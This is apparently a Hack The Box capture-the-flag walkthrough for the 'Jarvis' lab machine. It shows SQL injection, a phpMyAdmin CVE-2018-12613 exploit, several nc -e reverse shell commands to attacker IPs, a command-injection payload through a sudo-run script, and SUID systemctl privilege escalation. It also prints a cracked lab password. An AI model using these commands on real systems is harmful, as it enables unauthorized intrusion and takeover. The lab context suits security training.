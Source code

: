 # [Jarvis](https://app.hackthebox.com/machines/Jarvis)

Let's identify open ports

```bash
nmap -p- --min-rate 10000 10.10.10.143 
```

![Alt text](img/image.png)


Let's do nmap greater search for open ports.

```bash
nmap -sC -sV -p22,80,64999 10.10.10.143 -Pn
```

![Alt text](img/image-1.png)


Directory brute-forcing.
```bash
gobuster dir -u http://10.10.10.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40  
```


![Alt text](img/image-6.png)


Here, I find 'room.php' and 'cod' parameter of this is vulnerable to SQLI,

![Alt text](img/image-2.png)


I did manul SQLI and found that it is vulnerable to SQLI that I did UNION-based SQLI.

![Alt text](img/image-3.png)


I searched on the internet that how can I get password of phpliteadmin, and found that from 'mysql.user' table and grab password.

![Alt text](img/image-4.png)


I grab MD5 hash of password of 'DBadmin' user and crack it by online [Crackstation](https://crackstation.net/)


![Alt text](img/image-5.png)


DBadmin: 2d2b7a5e4e637b8fba1d17f40318f277d29964d0: imissyou


After entering above credentials, I am on the dashboard of phpliteadmin.

![Alt text](img/image-7.png)


I see that version of phpmyadmin (4.8.0)

![Alt text](img/image-8.png)


Let's search an exploit for this version.

![Alt text](img/image-9.png)

I found CVE-2018-12613 exploit for this version.

I download exploit to my machine and run it.

![Alt text](img/image-10.png)

I run the script against to my target and IT WORKED.

![Alt text](img/image-11.png)


Let's add reverse shell into here

```bash
nc -e /bin/sh 10.10.14.8 443
```


![Alt text](img/image-12.png)

![Alt text](img/image-13.png)


I spawned interactive shell.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo;fg

export TERM=xterm
export SHELL=bash
```


I check the privileges of 'www-data' user.

![Alt text](img/image-14.png)


Then , I enumerate script itself, I see that there is 'Command Injection' possible as because.

```python
os.system('ping ' + command)
```


Now, I add my reverse shell bash script into 'tmp' folder.
```bash
echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.16.4 7654' > /tmp/dr4ks.sh
```

And give execution privilege to this file.

```bash
chmod +x /tmp/dr4ks.sh
```
![Alt text](img/image-15.png)


Now, I run this script with 'sudo' privilege.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

Then, I enter my script execution as command injection.
`$(/tmp/dr4ks.sh)`

![Alt text](img/image-16.png)


Now, I am pepper user.

![Alt text](img/image-17.png)


user.txt

![Alt text](img/image-18.png)


Let's search SUID files for privilege escalation.

```bash
find / -type f -perm /4000 2>/dev/null

```

![Alt text](img/image-19.png)


I found these and choose '/bin/systemctl' for privilege escalation.  [GTFOBINS](https://gtfobins.github.io/gtfobins/systemctl/)


```bash
# FIRST
cat >dr4ks.service<<EOF
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.16.4 2003'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
EOF

# SECOND

systemctl link /home/pepper/dr4ks.service

# THIRD
systemctl start dr4ks
```

![Alt text](img/image-20.png)



root.txt

![Alt text](img/image-21.png)

